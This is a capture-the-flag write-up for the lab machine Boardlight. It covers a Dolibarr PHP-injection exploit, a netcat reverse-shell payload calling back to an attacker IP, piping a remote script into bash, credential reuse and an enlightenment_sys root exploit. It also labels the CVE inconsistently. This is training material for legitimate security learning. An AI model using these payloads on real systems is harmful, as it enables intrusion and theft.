


# Boardlight

| Author | Date | Difficulty | OS |
| ------ | ---- | ---------- | -- |
|   D    | 2025/01/09 | Easy | Linux |

<br>

## Enumeration

### 1. Port scanning
*We begin by scanning the target machine for open ports and services.*

```console
root@kali~#  nmap -sV -sC -Pn -T4 -p- 10.10.11.11
[...]

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

[...]
```

*The Nmap scan reveals that **SSH** is running on port **22**, and an **Apache web** server is running on port **80**. Visiting port 80, we encounter the landing page of a cybersecurity consulting firm.* 

### 2. Domain Discovery
*We examine the footer of the page and find the hostname **`board.htb`**. To proceed, we add this entry to our **`/etc/hosts`** file:* 

```console
root@kali~# echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
``` 

### 3. Subdomain Enumeration
*We use **`ffuf`** to perform subdomain enumeration. After running the tool, we identify the subdomain **`crm.board.htb`**:*

```console
root@kali~# ffuf -w /usr/share/wordlists/SecLists-master/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb/ -H "HOST: FUZZ.board.htb" -fs 15949
[...]

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 406ms]
[...]

```
*We add this new subdomain to our **`/etc/hosts`**:*

```console
root@kali~# echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts
```

## Foothold

### 4. Website Enumeration and Vulnerability Discovery
*Visiting **`crm.board.htb`**, we are greeted with a login page for Dolibarr. The version displayed on the page is **`17.0.0`**.*

> [!NOTE]
>
> Dolibarr is a modular Enterprise Resource Planning (ERP) and Customer Relationship Management (CRM) software designed for managing various aspects of business operations

  

*We attempt the commonly used **`admin:admin`** credentials and successfully gain access to the admin dashboard.*  

  


*We research vulnerabilities related to Dolibarr version 17.0.0 and discover **CVE-2023-30253**.*

> [!NOTE]
> 
> This vulnerability states that Dolibarr versions before 17.0.1 allow remote code execution by an authenticated user through an uppercase manipulation, using `<?PHP `instead of `<?php` in injected data.
> 

*We create a new page on the site, injecting a PHP payload to run the `whoami` command:*

*To exploit this, we first need to create a new website and inject PHP code into one of the pages we create. We then embed our PHP code here to run `whoami` on the target*

```php
--------------------------------------------------------------------------------------------------------------------------
								Website interface

<?PHP echo system("whoami");?>

# Previewing the code print the output of the payload on the website
www-data wwww-data
```
*After injecting the payload, we see the output `www-data`, indicating the user under which the web server is running.*

### 5. Reverse Shell Exploitation
*We modify our PHP payload to spawn a reverse shell by using Netcat:*

```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9000 >/tmp/f");?>
```

*On our attacking machine, we start a Netcat listener on port 9000 to catch the incoming connection.*

```console
root@kali~# nc -lnvp 9000
listening on [any] 9000
connect to [10.10.14.52] from (UNKNOWN) [10.10.11.11] 33966

$ whoami
www-data

$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$

```

We now have an interactive shell as **`www-data`**. To get a more stable shell use **`script`**

> [!NOTE]
> 
> The **`script`** command in Linux is used to create a typescript of everything that occurs in a terminal session. This command below starts a new shell session using a script , which creates a new interactive Bash shell. The output is directed to `/dev/null` , effectively discarding it, while still allowing us to interact with the shell

### 6. User and Password Discovery
*After enumerating the system, we find credentials in the file `/var/www/html/crm.board.htb/htdocs/conf/conf.php`:* 

```console
www-data@boardlight:~/html/crm.board.htb/htdocs/conf/$ catconf.php
[...]
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
[...]
```

*Next, we check the **`/etc/passwd`** file and find a user named **`larissa`**:*

```console
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd
[...]
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
[...]
```

*We attempt SSH login using the discovered credentials **`larissa:serverfun2$2023!!`**:*

```console
root@kali~# ssh larissa@board.htb
larissa@board.htb's password: 
Last login: Wed Jan  8 15:32:42 2025 from 10.10.14.52

larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)

larissa@boardlight:~$ cat user.txt
747cece2f9f6c160f59c6f485b3e1f13
```
## Privilege Escalation

### 7. LinPEAS
*We run the LinPEAS script to identify potential privilege escalation vectors:*

> [!NOTE]
> 
> **Linpeas**  is a script that helps **identify potential security weaknesses** in a **Linux** environment. It checks for various **misconfigurations, file permissions, and other vulnerabilities** that could be exploited to gain **elevated privileges.**

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine
								
root@kali~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:39:54] "GET /linpeas.sh HTTP/1.1" 200 -

--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine
								
larissa@boardlight:~$ curl http://10.10.14.52:8000/linpeas.sh | bash

--------------------------------------------------------------------------------------------------------------------------
```

> [!NOTE]
> 
> The command starts a simple HTTP server, serving files from the current directory on port 8000 .
> The command utilizes Python's built-in HTTP server functionality, which allows us to host files easily.
> The curl command fetches the script from our specified URL, piping its contents directly into bash for execution

```console
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions
╠══════════════════════
╚════════════════════════════════════╝
[...]
-rwsr-sr-x 1 root root 15K Apr 8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
binary!)
[...]
```

*The script reveals that several SUID binaries are present, including `enlightenment_sys`, which is vulnerable to **CVE-2022-37796**.*

> [!NOTE]
> 
> **SUID** bit set allows to run with the privileges of the file owner, which in this case is root. It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems.

*We check the version for potential vulnerabilities.*

```console
larissa@boardlight:~$ enlightenment --version
[...]
Version: 0.23.1
[...]
```

*The CVE-2022-37796 describes a flaw in `enlightenment_sys` in `Enlightenment` versions before `0.25.4`*

> [!NOTE]
> 
> This vulnerability allows local users to gain **elevated privileges** because the binary is **SUID** and owned as the **root user**, and the system library function mishandles path names that begin with a /dev/.. substring

*We download the exploit script for **CVE-2022-37796** on our attacking machine.*

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine

root@kali~# wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh - O exploitPrivEsc.sh
exploit.sh                        100%[=============================================================>]

root@kali~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:56:17] "GET /exploitPrivEsc.sh HTTP/1.1" 200 -
```

*On the target machine, we fetch and run the exploit:*

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine


larissa@boardlight:/tmp$ wget http://10.10.14.52:8000/exploitPrivEsc.sh
exploitPrivEsc.sh                 100%[=============================================================>]

--------------------------------------------------------------------------------------------------------------------------
```

*The exploit successfully grants us root access:*

```console
larissa@boardlight:/tmp$ ./exploitPrivEsc.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.

root@boardlight:/tmp# id 
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)

root@boardlight:/tmp# cat /root/root.txt 
8f819211433863920a2b61bca6d9a153

---------------------------------------------------------------------------------
```

## Conclusion
*This write-up covered the process of exploiting the vulnerable Dolibarr application, gaining user access, and escalating privileges using a known vulnerability in the enlightenment_sys binary. Through proper enumeration and exploitation, we achieved root access and retrieved both user and root flags.*

> [!IMPORTANT]
>
>    **`ping`**: To verify connectivity to the target machine.
> 
>    **`nmap`**: To scan open ports and services.
> 
>   **`ffuf`**: For subdomain enumeration.
>
>   **`curl`**: To download scripts on the target machine.
>
>   **`netcat`**: To establish reverse shells.
>
>   **`LinPEAS`**: To search for privilege escalation vectors


